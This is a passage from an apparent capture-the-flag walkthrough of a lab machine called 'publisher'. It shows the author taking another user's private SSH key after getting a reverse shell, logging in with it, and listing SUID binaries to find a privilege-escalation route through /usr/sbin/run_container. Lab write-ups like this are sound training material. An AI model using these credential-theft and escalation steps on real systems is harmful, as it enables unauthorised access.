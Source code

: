 
A reverse shell as the user www-data on the publisher machine was successfully obtained. In the /home directory on the machine, a user "think" was found and the contents of the "/home/think" directory could be read by the www-data user. The user's id_rsa private key could be found in the user's .ssh directory. This key was then used to log into the machine as the user "think" through ssh.


```bash
$ chmod 600 id_rsa
$ ssh -i id_rsa think@10.10.105.203
```


To execute previleges several approaches were then attempted. First, `sudo -l` was run to check if it was possible to execute any commands as the superuser without a password. This was not allowed. The next step was to search for a SUID binary that was owned by root. Such files, which temporarily give the user running the binary super user previleges while running the binary, could be exploited to become the superuser. The command afor finding such files, and its subsequent output is:


```bash
think@publisher:~$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
-rwsr-xr-x 1 root root 1183448 Jul  2 13:33 /var/tmp/bash
-rwxr-sr-x 1 root mail 22856 Apr  7  2021 /usr/libexec/camel-lock-helper-1.2
-rwsr-xr-x 1 root root 22840 Feb 21  2022 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 477672 Dec 18  2023 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-- 1 root messagebus 51344 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwxr-sr-x 1 root utmp 14648 Sep 30  2019 /usr/lib/x86_64-linux-gnu/utempter/utempter
-rwsr-sr-x 1 root root 14488 Dec 13  2023 /usr/lib/xorg/Xorg.wrap
-rwxr-sr-x 1 root shadow 43168 Feb  2  2023 /usr/sbin/pam_extrausers_chkpwd
-rwsr-xr-- 1 root dip 395144 Jul 23  2020 /usr/sbin/pppd
-rwxr-sr-x 1 root shadow 43160 Feb  2  2023 /usr/sbin/unix_chkpwd
-rwsr-sr-x 1 root root 16760 Nov 14  2023 /usr/sbin/run_container
-rwsr-sr-x 1 daemon daemon 55560 Nov 12  2018 /usr/bin/at
-rwxr-sr-x 1 root ssh 350504 Dec 18  2023 /usr/bin/ssh-agent
-rwsr-xr-x 1 root root 39144 Mar  7  2020 /usr/bin/fusermount
-rwsr-xr-x 1 root root 88464 Nov 29  2022 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 85064 Nov 29  2022 /usr/bin/chfn
-rwxr-sr-x 1 root shadow 84512 Nov 29  2022 /usr/bin/chage
-rwsr-xr-x 1 root root 166056 Apr  4  2023 /usr/bin/sudo
-rwxr-sr-x 1 root tty 14488 Mar 30  2020 /usr/bin/bsd-write
-rwsr-xr-x 1 root root 53040 Nov 29  2022 /usr/bin/chsh
-rwxr-sr-x 1 root shadow 31312 Nov 29  2022 /usr/bin/expiry
-rwsr-xr-x 1 root root 68208 Nov 29  2022 /usr/bin/passwd
-rwsr-xr-x 1 root root 55528 May 30  2023 /usr/bin/mount
-rwsr-xr-x 1 root root 67816 May 30  2023 /usr/bin/su
-rwsr-xr-x 1 root root 44784 Nov 29  2022 /usr/bin/newgrp
-rwsr-xr-x 1 root root 31032 Feb 21  2022 /usr/bin/pkexec
-rwxr-sr-x 1 root crontab 43720 Feb 13  2020 /usr/bin/crontab
-rwsr-xr-x 1 root root 39144 May 30  2023 /usr/bin/umount
-rwxr-sr-x 1 root tty 35048 May 30  2023 /usr/bin/wall
```


After reading this list of SUID files, one such file was found which is not normally a SUID file on Linux machines, which is /usr/sbin/run_container. Upon reading the source code of this file using strings, the following was obtained:
